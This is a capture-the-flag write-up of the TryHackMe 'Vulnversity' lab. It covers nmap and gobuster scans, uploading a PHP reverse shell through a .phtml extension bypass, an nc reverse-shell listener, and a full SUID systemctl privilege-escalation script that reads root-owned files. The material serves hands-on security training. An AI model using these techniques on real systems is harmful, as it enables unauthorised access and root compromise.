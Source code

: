 ```yaml
---
date: 2020-04-30 11:50:55
layout: post
title: "Vulnversity Try Hack Me Walkthrough"
subtitle:
description: Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. Vulnversity stands for Vuln University (I Guess).
image: /assets/img/uploads/vulnversity/vulnversity.jpg
optimized_image: /assets/img/uploads/vulnversity/vulnversity.jpg
category: walkthrough
tags: tryhackme boot2root
author: madhavmehndiratta
paginate: false
keywords: vulnversity, vulnversity try hack me, vulnversity walkthrough, infosec articles, tryhackme walkthrough, vulnversity writeup
---
```


Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. This box covers some basics of enumeration, exploiting the file upload vulnerability and then exploiting SUID bits. Lets Begin!

### Enumerating and Initial Access

We begin our enumeration by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -oA nmap/vulnversity 10.10.160.174

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.160.174 
Host is up (0.26s latency).      
Not shown: 994 closed ports                                              
PORT     STATE SERVICE     VERSION                                                             
21/tcp   open  ftp         vsftpd 3.0.             
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey                                                                  
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA) 
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.26 seconds
```

We see an Apache Web Server running on port 3333. Let's fire up our browser and see what we have there.

<img src="/assets/img/uploads/vulnversity/port3333.png">

Next, we will be running a gobuster scan searching for the directories.

```r
m1m3@kali:~$ gobuster dir -u http://10.10.160.174:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log

===============================================================      
Gobuster v3.0.1                                          
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) 
===============================================================                      
[+] Url:            http://10.10.160.174:3333 
[+] Threads:        10               
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt              
[+] Status codes:   200,204,301,302,307,401,403  
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
```

We found some directories. Opening the '/internal/' directory, provides us with some upload functionality!

<img src="/assets/img/uploads/vulnversity/internal.png">

 The first thing that we need to check in upload options is the extension type. To fuzz the extensions we will use BurpSuite. It has a nice feature called intruder which can do the job in an automated fashion.

First we need to upload a file (doesn’t really matter which file) and capture the request with BurpSuite proxy. After that right click on the request and choose send to intruder. Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so: 

<img src="/assets/img/uploads/vulnversity/request.png">

Now add the extensions to the list in the Payload tab and disable the <i>payload encoding</i> option.

<img src="/assets/img/uploads/vulnversity/intruder.png">

As we can see .phtml returns 'Success'. This is the extension we will be using with our webshell.

<img src="/assets/img/uploads/vulnversity/attack.png">

I will use the webshell from <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php"> pentest monkey,</a> you can use any shell you like, change the IP and port in the shell and upload it to the server. After uploading, we can find it at /internal/uploads/.

```r
m1m3@kali:~$ nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.5.61] from (UNKNOWN) [10.10.160.174] 43684
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:15:00 up  2:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ 
```

And we managed to get into the server. Now we can read the user.txt!

```r
www-data@vulnuniversity:/$ cd /home/bill
cd /home/bill
www-data@vulnuniversity:/home/bill$ wc -c user.txt
wc -c user.txt
33 user.txt
www-data@vulnuniversity:/home/bill$ 
```

### Privilege Escalation
This task is a little bit challenging. For this we need to exploit the SUID bits. Let's first look for the SUID bit set.

```r
www-data@vulnuniversity:/bin$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc
...
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
...
```

Looking at the output of the command, we can see that systemctl had a suid bit active. Searching on the <a href="https://gtfobins.github.io/gtfobins/systemctl/">GTFO Bins,</a> I found that we can exploit systemctl for privilege escalation. Copy and execute the following script into the /bin directory.

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

This will write the output /root/root.txt into the /tmp. If we see in the /tmp directory, we can see a file named output, which is our flag!

```r
www-data@vulnuniversity:/bin$ wc -c /tmp/output
wc -c /tmp/output
33 /tmp/output
www-data@vulnuniversity:/bin$ 
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Try Hack Me walkthroughs!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://swadeillustration.com">Swade.</a>